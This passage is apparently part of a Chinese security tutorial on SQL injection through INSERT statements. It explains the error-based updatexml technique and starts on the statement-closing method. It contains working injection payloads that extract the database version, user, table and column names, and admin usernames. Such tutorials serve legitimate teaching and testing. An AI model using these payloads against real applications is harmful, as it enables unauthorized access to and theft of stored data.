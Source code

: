 ##### 报错法
报错法，顾名思义，就是使用报错注入的方法进行注入的，但是这个方法有个局限性，那就是需要：
```
echo mysql_error(); //打印语句执行出错信息
```
我们先看下正常的INSERT语句：
```
INSERT INTO 表名(col1,col2,col3) VALUES('a','b','c');
```
INSERT语句的可控点在于VALUES中的值，这里我们就需要来闭合引号了，否则我们提交的SQL语句会被当作字符串来处理(原封不动的将语句插入数据库)。

因此，INSERT语句配合报错注入的语句结构为：
```
' or updatexml(0,concat(0x7c,注入语句),1) or '   //不懂函数什么意思的看上面MySQL报错注入
```
接下来看注入的过程：

爆MySQL版本号
```
' or updatexml(0,concat(0x7c,version()),1) or '    //把or换成and也一样，只要保证我们要产生错误的语句被执行就可以
```
![](http://image.ixysec.com/image/sql/sql114.png)

爆数据库用户名
```
' or updatexml(0,concat(0x7c,user()),1) or '
```
![](http://image.ixysec.com/image/sql/sql115.png)

爆表名
```
'or updatexml(0,concat(0x7c,(select group_concat(table_name) from information_schema.tables where table_schema = database())),1) or '
```
![](http://image.ixysec.com/image/sql/sql116.png)

爆列名
```
'or updatexml(1,concat(0x7c,(select group_concat(column_name) from information_schema.columns where table_name='admin')),0) or'
```
![](http://image.ixysec.com/image/sql/sql117.png)

爆数据
```
'and updatexml(1,concat(0x7c,(select username from admin limit 0,1)),1) and'
```
![](http://image.ixysec.com/image/sql/sql118.png)

##### 闭合语句法
闭合语句法不是上面我们说的闭合引号，而是通过闭合的方法将语句补充完整，使语句可以正常执行。这种方法的优点在于：不需要打印mysql执行的错误语句；其缺点在于：INSERT语句执行后，插入的信息能回显到界面中才行。

我们先看下正常的INSERT语句：
```
INSERT INTO 表名(col1,col2,col3) VALUES('a','b','c');
```
可控点是VALUES中的值，这里我们所说的闭合就是将引号和括号都闭合，使其成为完整的SQL语句，然后将程序本身的语句后段注释掉。
